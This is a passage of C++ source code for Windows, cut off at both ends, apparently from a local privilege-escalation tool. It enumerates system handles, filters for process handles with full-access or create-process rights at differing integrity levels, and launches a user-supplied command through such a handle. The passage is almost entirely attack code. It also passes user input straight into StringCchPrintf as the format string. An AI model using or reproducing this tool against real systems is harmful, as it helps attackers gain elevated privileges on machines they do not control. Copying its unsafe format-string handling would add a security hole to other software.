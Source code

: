 ```c++
	else {
		printf("[+] Created process with PID %d.\n", pi.dwProcessId);
		return TRUE;
	}
}



void Usage(TCHAR* argv)
{
	printf("\nUsage: %S -c [Command]\n", argv);
}



int _tmain(int argc, TCHAR* argv[])
{
	LPTSTR lpCommandLine = (LPTSTR)LocalAlloc(LPTR, MAX_PATH * sizeof(TCHAR));
	
	if (!(argc < 3) && (argv[1][0] == '-'))
	{
		switch (argv[1][1])
		{
		case 'c':
			StringCchPrintf(lpCommandLine, MAX_PATH, argv[2]);
			break;
		case 'h':
			Usage(argv[0]);
			exit(0);
			break;

		default:
			Usage(argv[0]);
			exit(0);
		}
	}
	else
	{
		Usage(argv[0]);
		exit(0);
	}
	
	auto systemHandlesList = QueryAllSystemHandlers();

	printf("[+] Filtering out all interesting handles.\n");

	for (int i = 0; i < systemHandlesList->NumberOfHandles; i++)
	{                                                             
		auto handleInfo = systemHandlesList->Handles[i];

		ULONG_PTR parentUniqueProcessId = GetParentPid(handleInfo.UniqueProcessId);
		INTEGRITY_LEVEL processIntegrity;
		INTEGRITY_LEVEL parentProcessIntegrity;

		// We are only interested in the process handle.
		if (handleInfo.ObjectTypeIndex != 0x07)
		{
			continue;
		}

		// Filter out all interesting handles.
		if (!(handleInfo.GrantedAccess == PROCESS_ALL_ACCESS ||
			handleInfo.GrantedAccess & PROCESS_CREATE_PROCESS ||
```